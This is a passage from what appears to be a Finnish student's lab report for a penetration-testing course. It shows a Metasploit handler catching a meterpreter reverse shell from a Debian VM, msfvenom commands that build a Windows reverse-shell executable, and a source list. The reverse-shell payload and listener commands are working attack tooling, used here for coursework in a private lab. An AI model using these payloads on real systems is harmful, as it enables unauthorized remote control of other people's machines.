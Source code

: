 ```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/aarch64/meterpreter/reverse_tcp
PAYLOAD => linux/aarch64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.211.55.13
LHOST => 10.211.55.13
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.211.55.13:4444 
[*] Transmitting intermediate midstager...(256 bytes)
[*] Sending stage (953388 bytes) to 10.211.55.33
[*] Meterpreter session 1 opened (10.211.55.13:4444 -> 10.211.55.33:48218) at 2025-04-23 01:03:01 +0300

meterpreter > sysinfo
Computer     : debian-12.localdomain
OS           : Debian 12.9 (Linux 6.1.0-31-arm64)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > 
```

---

### h) Vapaaehtoinen: Asenna Windows-virtuaalikone ja tee msfvenomilla ohjelma siihen.

Päätin kokeilla samaa ohjelmaa, mutta nyt exe tiedostotyyppinä.

```
msfvenom -p windows/aarch64/meterpreter/reverse_tcp LHOST=10.211.55.13 LPORT=4444 -f exe > reversetcp.exe
```

Ei toiminut:

```bash
┌──(parallels㉿kali-linux-2024-2)-[~/Documents/Mvenom]
└─$ msfvenom -p windows/aarch64/meterpreter/reverse_tcp LHOST=10.211.55.13 LPORT=4444 -f exe > reversetcp.exe
Error: invalid payload: windows/aarch64/meterpreter/reverse_tcp
```

Pääsin kokeilla ilman aarch64 ja valitsee nyt suoraan x86. Veikkaan että ei toimi, mutta kokeillaan.

```bash
┌──(parallels㉿kali-linux-2024-2)-[~/Documents/Mvenom]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.13 LPORT=4444 -f exe > reversetcp.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```


[^1]: Tero Karvinen. Tunkeutumistestaus: https://terokarvinen.com/tunkeutumistestaus/
[^2]: Tero Karvinen. Cracking Passwords with Hashcat: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/
[^3]: man tar
[^4]: man hashid
[^5]: hashcat. Example hashes: https://hashcat.net/wiki/doku.php?id=example_hashes
[^6]: Tero Karvinen. Crack File Password With John: https://terokarvinen.com/2023/crack-file-password-with-john/
[^7]: Stack Exchange. Best way to encrypt a file with just password (no keypairs) that is easily usable/decryptable on both Linux and macOS?: https://unix.stackexchange.com/questions/749766/best-way-to-encrypt-a-file-with-just-password-no-keypairs-that-is-easily-usabl
[^8]: man gpg
[^9]: Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/
[^10]: Kennedy et al 2025: Metasploit: File-Format Exploits: https://learning.oreilly.com/library/view/metasploit-2nd-edition/9798341620032/xhtml/chapter9.xhtml#toc-link_128
[^11]: Singh 2025: The Ultimate Kali Linux Book: Understanding Active Directory: https://learning.oreilly.com/library/view/the-ultimate-kali/9781835085806/Text/Chapter_12.xhtml#_idParaDest-272
[^12]: Kennedy et al 2025: Metasploit: https://learning.oreilly.com/library/view/metasploit-2nd-edition/9798341620032/xhtml/chapter6.xhtml#toc-link_85
[^13]: Jobin J. How to Set Up a File Download Server on Ubuntu with Apache: https://medium.com/@techworldthink/how-to-set-up-a-file-download-server-on-ubuntu-with-apache-c35bc03eb218
[^14]: pentestTV. MSFvenom Demystified: Unlocking the Power of Exploit Shellcode: https://www.youtube.com/watch?v=ROBLGTEqUBQ
[^15]: Occupytheweb. Getting Started Becoming a Master Hacker. https://www.amazon.com/Getting-Started-Becoming-Master-Hacker/dp/1711729299
[^16]: man msfvenom